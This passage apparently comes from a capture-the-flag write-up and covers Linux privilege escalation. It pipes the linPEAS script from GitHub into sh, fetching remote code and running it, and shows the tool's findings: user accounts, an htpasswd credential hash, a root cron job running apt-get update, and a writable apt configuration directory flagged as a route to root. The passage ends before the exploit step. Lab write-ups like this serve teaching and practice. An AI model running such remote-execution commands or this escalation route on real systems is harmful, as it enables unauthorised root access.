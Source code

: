## Privilege Escalation

10) Let's not waste any time and run linPEAS to figure out how to escalate ourselves to `root`:

> We download the script from GitHub and pipe it to `sh`

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

The most interesting findings are:

- There are three users with consoles:

```
------------ Users with console
ass:x:1000:1000:ass,,,:/home/ass:/bin/bash                                                                          
franklin:x:65534:65534::/home/frank:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

- A user:password combination to try against other users:

```
------------ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 root root 24 Jun 14  2013 /usr/local/apisix/deps/lib/luarocks/rocks-5.1/luasocket/3.0rc1-2/test/auth/.htpasswd                                                                                                             
luasocket:l8n2npozPB.sQ
```

- The machine has the following cron jobs (from `/etc/crontab`):

```

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * * root apt-get update
* * * * * root /root/run.sh
```

> Interesting: apt-get update runs as `root`

- Interesting files writable by the current user (**linPEAS highlighted this as 95% PE vector**):

```
------------ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
? https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                   
... (list omitted for brevity)

/etc/apt/apt.conf.d
```
